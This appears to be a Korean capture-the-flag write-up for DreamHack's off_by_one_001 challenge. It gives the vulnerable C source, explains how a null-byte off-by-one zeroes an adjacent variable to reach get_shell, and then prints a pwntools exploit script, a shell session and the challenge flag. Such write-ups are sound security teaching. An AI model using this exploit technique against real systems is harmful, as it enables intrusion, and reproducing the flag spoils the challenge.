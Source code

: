 # [DreamHack] off_by_one_001

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(off_by_one_001)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 get_shell 함수를 실행시키세요.
> 셸을 획득한 후, “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [off_by_one_001.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8557450/off_by_one_001.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/162667436-d5399880-37f7-4b5f-8179-97928c0240fd.png)

## Analysis

```c
void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0'; // off-by-one
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}
```

`main()`의 스택에서 `age`는 `name` 바로 뒤에 인접해 있다. `name`에 20바이트를 가득 채워서 입력하면 off-by-one이 발생하여 `age`가 0으로 덮어씌워져서 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/off_by_one_001')
else:
    r = remote('host1.dreamhack.games', 22759)

r.sendafter('Name: ', 'a' * 20)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 22759: Done
[*] Switching to interactive mode
20Are you baby?$ cat flag
DH{343bab3ef81db6f26ee5f1362942cd79}
```